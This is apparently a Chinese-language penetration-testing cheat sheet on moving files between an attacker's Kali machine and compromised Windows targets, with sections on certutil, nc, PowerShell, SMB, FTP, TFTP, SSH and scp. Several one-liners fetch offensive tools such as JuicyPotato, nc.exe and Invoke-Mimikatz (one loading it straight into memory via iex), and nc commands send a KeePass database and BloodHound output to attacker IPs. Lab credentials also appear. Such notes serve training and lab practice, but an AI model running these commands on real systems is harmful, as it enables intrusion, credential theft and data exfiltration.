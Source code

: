 # certuti
```
certutil -urlcache -split -f "http://192.168.49.102/JuicyPotato.exe" JuicyPotato.exe
```


# nc

接收文件
```
nc -lvp 139 > 20220518030433_BloodHound.zip
```

传送文件
```
nc.exe 192.168.119.149 139 < 20220518030433_BloodHound.zip


cmd.exe /C nc.exe 10.10.16.4 443<CEH.kdbx   #如果是ps的shell
```


# powershell
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.13.21.169:8000/nc.exe','C:\temp\nc.exe')"

iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)  #加载进内存
```

# smb

## 使用smbclient
```
smbclient -c 'put <文件名>' -U <用户名> -W <域前缀> '//<主机名>/<文件夹>/' <用户密码>

smbclient -c 'put max.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
```

## kali创建smb分享文件夹
在linux创建一个临时smb分享目录,文件夹：share，用户名：max，密码：s3cureP@ssword 
```
/usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support -username max -password s3cureP@ssword 


/usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support  # 没有密码，直接访问
```

在windows连接这个这个smb服务

```
net use \\10.50.102.104\share  /USER:max s3cureP@ssword
```

如：
```
PS C:\xampp\htdocs\resources\uploads> net use \\10.50.102.104\share  /USER:max s3cureP@ssword
net use \\10.50.102.104\share  /USER:max s3cureP@ssword
The command completed successfully.
```

从kali上拷贝文件到windows
```
PS C:\xampp\htdocs\resources\uploads> copy \\10.50.102.104\share\nc.exe .
copy \\10.50.102.104\share\nc.exe .

```



# ftp

思路，在kali上安装一个ftp服务，方便靶机（多数时候是windows）回连传送文件

1. kali安装ftp
```
sudo apt update && sudo apt install pure-ftpd
```

2. 编写自动化创建用户脚本

下面会创建一个叫offsec的ftp用户，密码运行脚本时会要求输入
```
kali@kali:~$ cat ./setup-ftp.sh
#!/bin/bash

sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
sudo cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

3. 执行
```
chmod +x setup-ftp.sh
sudo ./setup-ftp.sh
```

4. 连接
用户是offsec
密码：上面的自定义密码
```
ftp [kali的IP]
```

# tftp
适用于比较旧的windwos操作系统(比如Windows XP 和 2003)传送文件，默认情况下tftp不安装在运行 Windows 7、Windows2008 年及更新版本

> TFTP是一种基于 UDP 的文件传输协议，通常受公司出口防火墙规则的限制。


1. kali安装tftp
```
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```

2. windows上使用tftp
以下模拟widows向kali传送一个important.docx文件
```
tftp -i 10.11.0.4 put important.docx
```


tftp -i 192.168.119.156 get mimilove.exe

tftp -i 192.168.119.156 get test.txt


# ssh建立一个实时的共享文件夹

1. kali执行,这里输入vps的ssh密码
```
ssh -D <pxy转发端口> -R 10000:127.0.0.1:22 <vps user>@<vps IP>
```

例子：
```
ssh -D 9051 -R 10000:127.0.0.1:22 root@207.246.124.194
```

2. vps上执行，这里输入kali 的ssh密码
```
sshfs -p 10000 localuser@127.0.0.1:<local-path> <vps-path>
```

例子，把vps的```/tmp```目录映射到kali的```/root/tmp```
```
sshfs -p 10000 root@127.0.0.1:/root/tmp /tmp
```


# scp

1. 从本地上传文件到远程计算机或服务器的命令如下：
先进入本地目录下，然后运行如下命令：
```
scp my_local_file.zip root@192.168.1.104:/usr/local/nginx/html/webs
```

2. 从远程主机复制文件到本地主机(下载)的命令如下：（假如远程文件是about.zip）
先进入本地目录下，然后运行如下命令：
```
scp root@192.168.1.104:/usr/local/nginx/html/webs/about.zip .
```

# pscp

```
C:\Payloads>pscp root@kali:/tmp/msf.bin .
msf.bin                   | 196 kB | 196.6 kB/s | ETA: 00:00:00 | 100%
```